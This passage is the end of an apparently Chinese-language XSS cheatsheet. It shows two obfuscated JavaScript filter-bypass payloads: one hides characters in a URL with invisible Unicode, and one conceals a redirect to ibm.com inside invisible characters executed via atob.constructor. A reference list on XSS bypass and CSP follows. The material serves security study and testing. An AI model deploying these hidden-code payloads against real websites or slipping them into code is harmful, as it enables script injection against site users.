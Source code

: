 ```php
// Unicode-based
location='http://\u{e01cc}\u{e01cd}\u{e01ce}\u{e01cf}\u{e01d0}\u{e01d1}\u{e01d2}\u{e01d3}\u{e01d4}\u{e01d5}google\u{e01da}\u{e01db}\u{e01dc}\u{e01dd}\u{e01de}\u{e01df}.com'

// redirection
atob.constructor(unescape([...escape((𐑬󠅯󠅣󠅡󠅴󠅩󠅯󠅮󠄽󠄧󠅨󠅴󠅴󠅰󠄺󠄯󠄯󠅩󠅢󠅭󠄮󠅣󠅯󠅭󠄧=ﾠ=>ﾠ).name)].filter((ﾠ,ㅤ)=>ㅤ%12<1|ㅤ%12>9).join([])))()
```
上面的cheatsheet除了有brutexss原有的payload還有一些自己蒐集的!  
[Brute XSS payload by Pgaijin66](https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt)  

# Reference
1. The Web Application Hacker's Handbook  
2. [看雪](https://www.kanxue.com)  
3. [烏雲](http://wps2015.org/drops/drops/Bypass%20xss%E8%BF%87%E6%BB%A4%E7%9A%84%E6%B5%8B%E8%AF%95%E6%96%B9%E6%B3%95.html)  
4. [云淡风轻](http://blog.idhyt.com/2014/10/15/technic-xss-bypass/)  
5. [freebuf](http://www.freebuf.com/articles/web/153055.html)  
6. [BruteXSS](https://github.com/shawarkhanethicalhacker/BruteXSS)  
7. [PayloadAllTheThings by swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection)  
8. [LoRexxar前端防御从入门到弃坑](https://lorexxar.cn/2017/10/25/csp-paper/)  
9. [通过严格的内容安全策略（CSP）重塑Web防御体系 by 安全客](https://www.anquanke.com/post/id/84655)  
10. [CVE-2018-5175:Universal CSP strict-dynamic bypass in Firefox](https://mksben.l0.cm/2018/05/cve-2018-5175-firefox-csp-strict-dynamic-bypass.html)  
